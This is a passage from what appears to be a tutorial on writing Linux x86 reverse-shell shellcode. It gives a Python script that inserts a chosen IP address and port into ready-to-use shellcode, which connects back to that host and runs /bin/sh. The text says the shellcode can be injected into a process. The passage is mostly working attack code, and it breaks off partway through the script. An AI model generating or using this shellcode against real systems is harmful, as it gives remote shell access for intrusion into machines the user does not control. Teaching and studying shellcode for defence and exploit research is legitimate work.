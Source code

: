 As you can see, everything work perfectly. Now, you can use this shellcode and inject it into a process.   

But there is one caveat. Let's go to make the ip and port easily configurable.    

### configurable IP and port

To solve this problem I created a simple python script (`super_shellcode.py`):
```py
import socket
import argparse
import sys

BLUE = '\033[94m'
GREEN = '\033[92m'
YELLOW = '\033[93m'
RED = '\033[91m'
ENDC = '\033[0m'

def my_super_shellcode(host, port):
    print (BLUE + "let's go to create your super shellcode..." + ENDC)
    if int(port) < 1 and int(port) > 65535:
        print (RED + "port number must be in 1-65535" + ENDC)
        sys.exit()
    if int(port) >= 1 and int(port) < 1024:
        print (YELLOW + "you must be a root" + ENDC)
    if len(host.split(".")) != 4:
        print (RED + "invalid host address :(" + ENDC)
        sys.exit()

    h = socket.inet_aton(host).hex()
    hl = [h[i:i+2] for i in range(0, len(h), 2)]
    if "00" in hl:
        print (YELLOW + "host address will cause null bytes to be in shellcode :(" + ENDC)
    h1, h2, h3, h4 = hl

    shellcode_host = "\\x" + h1 + "\\x" + h2 + "\\x" + h3 + "\\x" + h4
    print (YELLOW + "hex host address: x" + h1 + "x" + h2 + "x" + h3 + "x" + h4 + ENDC)

    p = socket.inet_aton(port).hex()[4:]
    pl = [p[i:i+2] for i in range(0, len(p), 2)]
    if "00" in pl:
        print (YELLOW + "port will cause null bytes to be in shellcode :(" + ENDC)
    p1, p2 = pl

    shellcode_port = "\\x" + p1 + "\\x" + p2
    print (YELLOW + "hex port: x" + p1 + "x" + p2 + ENDC)

    shellcode = "\\x6a\\x66\\x58\\x6a\\x01\\x5b\\x31"
    shellcode += "\\xd2\\x52\\x53\\x6a\\x02\\x89\\xe1\\xcd\\x80\\x92\\xb0\\x66\\x68"
    shellcode += shellcode_host
    shellcode += "\\x66\\x68"
    shellcode += shellcode_port
    shellcode += "\\x43\\x66\\x53\\x89\\xe1\\x6a\\x10"
    shellcode += "\\x51\\x52\\x89\\xe1\\x43\\xcd"
    shellcode += "\\x80\\x6a\\x02\\x59\\x87\\xda\\xb0"
    shellcode += "\\x3f\\xcd\\x80\\x49\\x79\\xf9"
    shellcode += "\\xb0\\x0b\\x41\\x89\\xca\\x52\\x68"
    shellcode += "\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\xcd\\x80"

    print (GREEN + "your super shellcode is:" + ENDC)
    print (GREEN + shellcode + ENDC)

if __name__ == "__main__":
```